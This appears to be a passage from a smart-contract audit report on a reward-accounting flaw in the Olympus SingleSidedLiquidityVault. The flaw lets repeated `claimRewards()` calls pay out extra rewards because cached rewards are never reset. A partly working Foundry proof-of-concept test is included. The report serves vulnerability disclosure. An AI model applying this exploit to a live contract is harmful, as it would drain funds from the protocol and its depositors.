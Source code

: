 There are no other states updated regarding the rewards, but this is an issue because of the way `externalRewardsForToken` calculates the available rewards.

Rewards are calculate by adding 2 sources:
1) accumulated rewards generated from having shares of the pools
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L374-L386
    - taking the coressponding LP generated rewards and removing owed user debts `userRewardDebts[user_][rewardToken.token]`
    - because of this subtraction, the exploit can be used until the subtraction reverts with underflow (can be considered a separate issue on it's own)

2) rewards that have been accumulated but not claimed (`cachedUserRewards`)

During this entire execution flow `cachedUserRewards`  __is never reset__

Because of the way `externalRewardsForToken` does the subtaction, calls through `claimRewards` will only survive as long as the function does not revert.

## Impact

A malicious actor can call `claimRewards()` gaining extra rewards, on each call.
Or the simplest case, each claim is paid extra, leaving the system with possibly bad debt. 

## Code Snippet

A partially implemented, actually failing, POC follows (for `WstethLiquidityVaultMock.t`).

Coincidently, the code fails because of the `externalRewardsForToken` reverting on the subtraction in 
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L382-L383
(which is an issue in itself). Without it, the POC would function.

```
    function testCorrectness_ExploitInfiniteClaimExternalRewards(address user_) public {
        
        vm.assume(user_ != address(0) && user_ != alice && user_ != address(liquidityVault));

        // Setup
        _withdrawTimeSetUp();

        // Add second depositor
        vm.startPrank(user_);
        wsteth.mint(user_, 1e18);
        wsteth.approve(address(liquidityVault), 1e18);
        liquidityVault.deposit(1e18, 1e18);
        vm.stopPrank();
        vm.warp(block.timestamp + 10); // Increase time by 10 seconds

        // Trigger external rewards accumulation
        vm.prank(alice);
        liquidityVault.withdraw(1e18, minTokenAmounts_, false);

        // Alice's rewards should be 1.5 external tokens and her current balance 0
        assertEq(liquidityVault.externalRewardsForToken(0, alice), 15e17);
        assertEq(externalReward.balanceOf(alice), 0);

        // Exploiter Alice's claimes multiple times rewards
        vm.startPrank(alice);
        liquidityVault.claimRewards();
        assertEq(liquidityVault.externalRewardsForToken(0, alice), 15e17);
        liquidityVault.claimRewards();
            
        //assertApproxEqRel(externalReward.balanceOf(alice), 15e17, 1e16); // 1e16 = 1%
        vm.stopPrank();
```